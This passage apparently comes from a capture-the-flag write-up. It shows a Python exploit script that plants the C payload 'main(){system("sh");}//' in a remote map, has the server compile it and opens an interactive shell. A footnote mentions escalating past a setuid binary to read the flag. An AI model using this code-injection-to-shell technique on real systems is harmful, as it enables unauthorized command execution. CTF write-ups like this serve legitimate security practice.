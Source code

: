 ```python
log.info("init remote map:\n%s", init_map.decode("utf8", errors="ignore"))

PAYLOAD = """main(){system("sh");}//"""
log.info("PAYLOAD:\n%s", PAYLOAD)

write_str(0, 0, PAYLOAD)
log.info("map with payload:")
pmap()
log.info("Writing map to file: test.c")
with open("test.c", "w") as f:
    f.write("".join(mappa))

rem_map = send_data("$")
log.info("Remote map:\n%s", rem_map.decode("utf8", errors="ignore"))
pause()
do_compile()
io.interactive()

```

[^1]: The setup actually allowed you to get a terminal on the server. However, since the flag is only readable by root and the challenge binary is setuid, we still need to pwn the binary.
